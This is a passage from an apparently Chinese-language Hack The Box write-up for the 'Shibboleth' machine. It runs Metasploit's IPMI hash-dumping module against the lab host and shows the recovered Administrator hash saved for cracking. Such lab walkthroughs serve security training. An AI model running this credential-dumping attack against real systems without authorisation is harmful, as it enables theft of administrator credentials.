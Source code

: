 ![](img/3e9009d709b8c76dae99ba913a12554f.png)

IPMITest 正在对机器运行

确认主机易受攻击后，我们可以求助于[这篇关于使用 Metasploit 转储用户哈希的](https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/) Rapid7 帖子:

```
┌──(root💀kali)-[~/htb/shibboleth]
└─# msfdb start
[+] Starting database

┌──(root💀kali)-[~/htb/shibboleth]
└─# msfconsole -nqx "use scanner/ipmi/ipmi_dumphashes; set RHOSTS 10.10.11.124; set RPORT 623; set OUTPUT_JOHN_FILE out.john; exploit"
RHOSTS => 10.10.11.124
RPORT => 623
OUTPUT_JOHN_FILE => out.john
[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:86466b970223000067982d8966a40875c1ece9a0799cef734640ca4dfe646e76990b8a3b7e28ac51a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:f3006eb7f7bf3fcdf9a253ba31144abb49b65e77
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
